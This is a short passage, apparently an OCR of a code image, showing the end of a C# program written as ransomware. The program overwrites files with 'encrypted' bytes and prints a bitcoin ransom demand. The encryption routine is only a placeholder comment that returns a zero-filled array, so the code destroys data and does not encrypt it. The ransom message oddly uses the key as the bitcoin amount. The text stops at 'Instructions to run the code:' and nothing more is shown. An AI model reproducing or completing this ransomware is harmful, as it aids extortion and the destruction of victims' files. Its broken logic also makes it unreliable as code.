 ```csharp

                File.WriteAllBytes(file, encryptedData);

            }

        }



        static byte[] EncryptData(byte[] data, string encryptionKey)

        {

            byte[] encryptedData = new byte[data.Length];



            // Perform encryption logic using encryptionKey



            return encryptedData;

        }



        static void DisplayRansomMessage(string encryptionKey)

        {

            string ransomMessage = $"Your files have been encrypted. To decrypt them, send {encryptionKey} bitcoins to the following address...";



            // Display the ransom message to the user

            Console.WriteLine(ransomMessage);

        }

    }

}

```



Instructions to run the code:
